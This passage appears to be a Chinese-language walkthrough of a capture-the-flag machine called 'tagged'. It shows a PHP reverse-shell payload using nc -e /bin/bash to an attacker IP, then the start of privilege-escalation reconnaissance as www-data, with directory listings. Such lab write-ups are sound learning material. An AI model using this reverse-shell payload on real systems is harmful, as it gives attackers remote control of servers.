 太长了，尝试执行php代码：

```php
<?php system('nc -e /bin/bash 172.20.10.8 1234');?>
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729306.png" alt="image-20240413163840142" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729307.png" alt="image-20240413163849913" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202404131729308.png" alt="image-20240413163858061" style="zoom:50%;" />

## 提权

### 信息搜集

```bash
(remote) www-data@tagged:/var/www/html$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@tagged:/var/www/html$ ls -la
total 20
drwxr-xr-x 2 root     root  4096 Nov 14  2022 .
drwxr-xr-x 3 root     root  4096 Nov 14  2022 ..
-rw-r--r-- 1 root     root    46 Nov 14  2022 index.html
-rwxrwxr-- 1 www-data shyla   93 Apr 13 10:38 index.php
-rw-r--r-- 1 root     root   982 Nov 14  2022 magiccode.go
lrwxrwxrwx 1 root     root    24 Nov 14  2022 report.html -> /var/www/html/report.php
-rwxrwxr-- 1 uma      uma      0 Nov 14  2022 report.php
(remote) www-data@tagged:/var/www/html$ cd ../;ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov 14  2022 .
drwxr-xr-x 12 root root 4096 Nov 14  2022 ..
drwxr-xr-x  2 root root 4096 Nov 14  2022 html
(remote) www-data@tagged:/var/www$ cd ..;ls -la
total 48
drwxr-xr-x 12 root root  4096 Nov 14  2022 .
drwxr-xr-x 18 root root  4096 Nov 14  2022 ..
drwxr-xr-x  2 root root  4096 Sep  3  2022 backups
drwxr-xr-x  9 root root  4096 Nov 14  2022 cache
drwxr-xr-x 25 root root  4096 Nov 14  2022 lib
drwxrwsr-x  2 root staff 4096 Sep  3  2022 local
lrwxrwxrwx  1 root root     9 Nov 14  2022 lock -> /run/lock
drwxr-xr-x  7 root root  4096 Nov 14  2022 log
drwxrwsr-x  2 root mail  4096 Nov 14  2022 mail
drwxr-xr-x  2 root root  4096 Nov 14  2022 opt
lrwxrwxrwx  1 root root     4 Nov 14  2022 run -> /run
drwxr-xr-x  4 root root  4096 Nov 14  2022 spool
drwxrwxrwt  4 root root  4096 Apr 13 10:39 tmp
drwxr-xr-x  3 root root  4096 Nov 14  2022 www
(remote) www-data@tagged:/var$ mail
bash: mail: command not found
(remote) www-data@tagged:/var$ cd backups/
(remote) www-data@tagged:/var/backups$ ls -la
total 8
drwxr-xr-x  2 root root 4096 Sep  3  2022 .
drwxr-xr-x 12 root root 4096 Nov 14  2022 ..
(remote) www-data@tagged:/var/backups$ cd /home
(remote) www-data@tagged:/home$ ls -la
total 16
drwxr-xr-x  4 root  root  4096 Nov 14  2022 .
drwxr-xr-x 18 root  root  4096 Nov 14  2022 ..
drwxr-xr-x  3 shyla shyla 4096 Nov 14  2022 shyla
drwxr-xr-x  2 uma   uma   4096 Nov 14  2022 uma
```